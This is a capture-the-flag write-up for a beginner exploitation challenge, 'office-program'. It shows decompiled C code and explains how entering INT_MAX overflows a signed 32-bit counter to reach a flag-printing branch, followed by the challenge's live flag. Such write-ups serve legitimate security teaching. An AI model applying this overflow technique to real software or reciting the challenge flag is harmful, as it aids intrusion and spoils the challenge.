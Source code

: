 # [office-program](http://ctf.m0unt41n.ch/challenges/office-program) (`pwn`, `baby`)

# TL;DR

We are given an executable which, after decompilation, ends up being a trivial C dialog program,
where we need to overflow a 32-bit counter to get the flag

# Decompilation

```c
__int64 print_flag() {
  char s[1048]; // [rsp+0h] [rbp-420h] BYREF
  FILE *stream; // [rsp+418h] [rbp-8h]

  stream = popen("cat ./flag.txt", "r");
  if ( !stream ) {
    puts("Failed to run command");
    exit(1);
  }
  while ( fgets(s, 1035, stream) )
    printf("%s", s);
  pclose(stream);
  return 0LL;
}

__int64 important_work_or_attend_a_meeting() {
  __int64 result; // rax
  int v1; // [rsp+8h] [rbp-8h]
  int i; // [rsp+Ch] [rbp-4h]

  v1 = rand() % 10;
  printf("\nProcessing");
  for ( i = 0; ; ++i ) {
    result = (unsigned int)i;
    if ( i >= v1 )
      break;
    putchar(46);
    fflush(_bss_start);
    sleep(1u);
  }
  return result;
}

int __fastcall main(int argc, const char **argv, const char **envp) {
  unsigned int v3; // eax
  int v5; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = time(0LL);
  srand(v3);
  puts("Welcome to the Office Program");
  while ( 1 ) {
    puts("\nSelect an action:");
    puts("0 - Exit (like leaving the office at 5 PM)");
    puts("1 - Print favourite excel column");
    puts("2 - Call Rebecca from front desk");
    puts("3 - Get secret sauce (only for finance)");
    printf("Enter your choice: ");
    __isoc99_scanf("%d", &v5);
    important_work_or_attend_a_meeting();
    if ( v5 == 3 )
      break;
    if ( v5 < 0 ) {
      puts("\nInput out of range. You confused the system");
      v5 = -v5;
    }
    v5 += 5;
    if ( v5 >= 0 ) {
      v5 = 0;
      puts("\nThe CEO wants to talk to you");
    } else {
      puts("\nInput out of range. You confused the system");
      print_flag();
    }
    if ( rand() % 3 ) {
      if ( rand() % 3 == 1 )
        puts("\nRandom action: Rewinding a cassette tape with a pencil...");
      else
        puts("\nUnexpected error, please insert disk");
    } else {
      puts("\nRandom action: Faxing a memo to nowhere...");
    }
  }
  puts("\nThe Office Program is not able to process the number 3");
  important_work_or_attend_a_meeting();
  puts("\nExiting now...");
  exit(0);
}
```

# Solution

In order to get the flag, we need to ensure that, after `v5 += 5`, the `v5`
is still negative. We need to overflow the 32-bit value, by entering a positive integer
(which would pass the `v5 < 0` check), but large enough that after adding 5, it would become
negative.

`INT_MAX` (2147483647) looks about right:

```
$ ./main 
Welcome to the Office Program

Select an action:
0 - Exit (like leaving the office at 5 PM)
1 - Print favourite excel column
2 - Call Rebecca from front desk
3 - Get secret sauce (only for finance)
Enter your choice: 2147483647

Processing.
Input out of range. You confused the system
shc2024{fake_flag}
(...)
```

## The flag

Repeating this in the live environment:

```
shc2024{monica_please_send_me_the_tax_statement_by_tomorrow}
```

